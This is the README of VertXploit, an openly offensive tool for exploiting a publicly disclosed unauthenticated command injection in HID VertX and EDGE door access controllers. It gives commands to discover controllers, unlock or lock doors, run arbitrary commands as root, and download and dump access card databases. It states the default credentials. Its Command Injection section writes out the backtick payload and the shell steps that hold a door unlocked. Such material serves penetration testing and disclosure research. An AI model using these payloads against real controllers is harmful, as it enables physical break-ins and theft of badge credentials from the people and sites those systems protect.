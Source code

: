 # VertXploit
Exploiting HID VertX and EDGE access control systems

## Summary ##
VertXploit is a tool that can be used to exploit HID VertX and EDGE access control systems. 

A vulnerability exists within the discoveryd service, which fails to sanitize user data before executing system calls. This allows for arbitrary code execution on HID VertX and EDGE access control systems without needing to be authenticated. See the [Command Injection](https://github.com/coldfusion39/VertXploit/blob/master/README.md#command-injection) section for more information.

VertXploit can unlock or lock doors connected to the access control system, download the databases containing all of the provisioned/cached access control cards, and execute arbitrary commands as root on the VertX system, if vulnerable.

If the VertX controller's firmware has been recently updated, vertXploit will attempt to unlock or lock the doors through the web console by using the default, or user supplied, username and password.


## Requirements ##
Run `pip install -r requirements.txt` to install the required python modules.
 * [python-nmap](https://bitbucket.org/xael/python-nmap)
 * [requests](https://github.com/kennethreitz/requests)
 * [tabulate](https://bitbucket.org/astanin/python-tabulate)


## VertXploit Usage ##
Run `./vertXploit.py -h` to show the help menu, or `./vertXploit.py ACTION -h` to show help for a specific action.


### Discover ###
Run vertXploit with just the `discover` action argument to discover all HID access control systems on the local broadcast network. If an IP address is supplied with the optional `--ip IP` argument, vertXploit will use [python-nmap](https://bitbucket.org/xael/python-nmap) to scan that /24 network range for systems with port 4050 open. VertXploit will then send a discovery UDP packet to the identified IP address to determine if that systems is a HID access control panel.

Example:

`./vertXploit.py discover`

`./vertXploit.py discover --ip 10.1.10.5`


### Fingerprint ###
Once a controller is discovered, run vertXploit with the `fingerprint` action argument and the access controller's IP address to return detailed information about the access control panel.

Example:

`./vertXploit.py fingerprint 10.1.10.5`


### Unlock/Lock ###
In order to unlock or lock doors connected to the access control panel, run vertXploit with the `unlock` or `lock` action argument and the controller's IP address. If the controller is not vulnerable to the command injection exploit, vertXploit will attempt to unlock or lock the doors through the web console. This method uses the default username 'root' and default password 'pass', or you can supply your own with the `--username USERNAME` and `--password PASSWORD` arguments.

Example:

`./vertXploit.py unlock 10.1.10.5`

`./vertXploit.py unlock 10.1.10.5 --username test --password test`


### Raw ###
Arbitrary Linux commands can be executed on the access control system by using the `raw` action argument and the controller's IP address. The command may fail to execute if it is not installed on the controller (Python, Perl, Ruby, etc). As a simple proof of concept, the native Linux 'ping' command seems to work on all VertX and EDGE models tested.

Example:

`./vertXploit.py raw 10.1.10.5 'ping -c 5 10.1.10.39'`


### Download ###
To download the controller's card databases, run vertXploit with the `download` action argument and the controller's IP address. The controller <b>must</b> be vulnerable to the command injection vulnerability and you <b>must</b> be able to access the controller's web interface to download the two card databases. The default username 'root' and default password 'pass' are used for web authentication, or you can supply your own with the `--username USERNAME` and `--password PASSWORD` arguments.

Example:

`./vertXploit.py download 10.1.10.5`

`./vertXploit.py download 10.1.10.5 --username test --password test`


### Dump ###
After downloading the 'IdentDB' and 'AccessDB' databases from the controller, use the `dump` action argument to dump the contents of the databases. Optionally, you can specify the local file path to the databases with the `--path PATH` argument.

Example:

`./vertXploit.py dump`

`./vertXploit.py dump --path /root/VertX/DBs/`


## Command Injection ##
Typically multiple VertX or EDGE access controllers are installed and housed together. The diagnostic command `command_blink_on` can be sent to a specific controller which causes the panel's physical "Comm" LED to blink on and off for visual identification. This command usually terminates with the number of times the LED should blink, in the following case, 30 times.

`command_blink_on;044;00:11:22:33:44:55;30;`

By replacing the number of blinks with a Linux command wrapped in back ticks, the command will be executed on the access controller, as root.

``command_blink_on;044;00:11:22:33:44:55;`ping -c 5 10.1.10.39`;``

To remotely unlock and lock doors connected to the access control system, commands are echoed to `/tmp/a`. This is done because there is a length limit of 41 characters, not counting the two back ticks, that can be sent to the controller. <i>Note: echo is used instead of printf because some older VertX controllers are running BusyBox < 1.0.1 which does not include printf.</i>

Newlines from echoing the commands into the file are then removed by running `tr -d '\n' < /tmp/a > /tmp/b` and intentional newlines are inserted by running `tr '!' '\n' < /tmp/b > /tmp/a`.

The script `/tmp/a` is then executed and both files are deleted. Below shows what commands are being echoed into `/tmp/a` when the unlock and lock commands are sent to the VertX controller.

### Unlock ###
	# Set QUERY_STRING to the door unlock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=1"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Remove executable permissions to prevent the door from locking
	chmod -x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Lock ###
	# Enable executable permissions
	chmod +x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Set QUERY_STRING to the door lock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=0"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi


## Resources ##
* [HeadlessZeke](https://github.com/headlesszeke/defcon24-demos) - Command injection vulnerability
* [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-223/) - Public disclosure
* [TrendMicro Blog](http://blog.trendmicro.com/let-get-door-remote-root-vulnerability-hid-door-controllers/) - Blog on command injection vulnerability
* [Brad Antoniewicz](http://nosedookie.blogspot.com/2011/07/hid-vertx-v2000-card-number-cache-tool.html) - Parsing card numbers from VertX cache
* [Other Work](http://nosedookie.blogspot.com/2011/07/identifying-and-querying-hid-vertx.html) - VertX discovery commands
